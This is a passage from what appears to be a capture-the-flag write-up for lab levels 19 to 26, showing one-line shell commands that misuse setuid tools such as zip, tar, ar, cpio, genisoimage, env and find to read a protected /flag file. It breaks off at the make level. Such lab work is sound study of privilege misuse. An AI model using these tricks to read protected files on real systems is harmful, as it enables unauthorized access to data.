 ```bash
$ zip flag.zip /flag 2&>/dev/null && strings flag.zip | grep pwn
```

### Level 20 - tar

```bash
$ tar -cf flag.tar /flag && strings flag.tar | grep pwn
```

### Level 21 - ar

```bash
$ ar -r flag.a /flag && strings flag.a | grep pwn
```

### Level 22 - cpio

```bash
$ find /flag | cpio -o
```

<div align="center">
    <h1> Execute other commands to read flag </h1> 
</div>


### Level 23 - genisoimage

```bash
$ genisoimage -sort /flag | grep pwn
```

### Level 24 - env

From the `man` page of `env`:

> NAME
>        env - run a program in a modified environment

We will use `env` to execute `head` and check the content of /`flag`.

```bash
$ env head /flag 
```

### Level 25 - find

There is a variety of ways for this, from spawning shell, use `head`, `more` or whatever we learned from the first challenges to print the content of `/flag`.

```bash
$ find /flag -exec /usr/bin/cat /flag \;
```

### Level 26 - make

With a bit of bash magic, we can come up with something like this:
